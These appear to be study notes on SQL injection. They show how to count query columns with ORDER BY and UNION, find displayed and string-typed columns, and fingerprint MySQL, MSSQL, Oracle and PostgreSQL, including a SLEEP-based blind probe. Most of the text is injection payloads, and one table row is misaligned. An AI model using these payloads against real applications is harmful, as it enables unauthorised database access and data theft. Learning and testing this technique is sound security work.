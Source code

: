 There are two methods of detecting the number of columns:

* **Using ORDER BY** Keep increasing till an error is caused. If 4 caused an error then 3 columns are present

```sql
' order by 1-- -
```

* **Using UNION** Keep adding junk columns till error.

```sql
cn' UNION select 1,2,3-- -`
```

Not every column is shown to the user so to test which columns are shown can use @@version:

```sql
cn' UNION select 1,@@version,3,4-- -
```

!\[\[SQL & SQL Injection-2.png]]

To check for MySQL:

| Payload          | When to Use                    | Expected Output                                   | Wrong Output                                              |                                  |
| ---------------- | ------------------------------ | ------------------------------------------------- | --------------------------------------------------------- | -------------------------------- |
| SELECT @@version | When we have full query output | MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1'     | In MSSQL it returns MSSQL version. Error with other DBMS. |                                  |
| SELECT POW(1,1)  | When we on                     | When we only have numeric output                  | 1                                                         | <p>Error with other DBMS<br></p> |
| SELECT SLEEP(5)  | Blind/No Output                | Delays page response for 5 seconds and returns 0. | Will not delay response with other DBMS                   |                                  |

To check for the column that holds string value:

```sql
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```

* In **oracle** there is a builtin table called **DUAL**

Checking versions:

|                  |                           |
| ---------------- | ------------------------- |
| Database type    | Query                     |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

### Reading Files

To get useful information:
